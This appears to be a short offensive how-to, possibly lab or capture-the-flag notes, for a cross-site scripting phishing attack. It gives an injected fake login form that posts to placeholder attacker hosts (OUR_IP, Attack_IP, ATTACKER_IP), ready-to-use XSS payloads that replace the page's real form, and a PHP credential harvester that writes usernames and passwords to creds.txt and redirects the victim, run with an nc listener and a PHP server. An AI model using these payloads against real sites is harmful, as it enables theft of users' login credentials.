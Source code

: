 1) Create the following form:
```HTML
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

2) Then mimify that HTML form and add it to document.write(HTMLmimified), then insert this in the XSS:
```JS
`document.write('<h3>Please login to continue</h3><form action=http://Attack_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();`
```

3) Send a payload of a contact form using:
```js
'><script>document.write('<h3>Please login to continue</h3><form action=http://ATTACKER_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById("urlform").remove();</script><!--

```

4) Grab final URL after inputing this XSS into the field and it loads, then open up a nc listener and wait for user

5) write a php script to capture creds and then revert user back to the main page pre xss. Save this as index.php in the /tmp/server. Follow these steps:
```CLI
mkdir /tmp/tmpserver

cd /tmp/tmpserver

vi index.php   #Ender code below

<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```
```CLI
sudo php -S 0.0.0.0:80
```

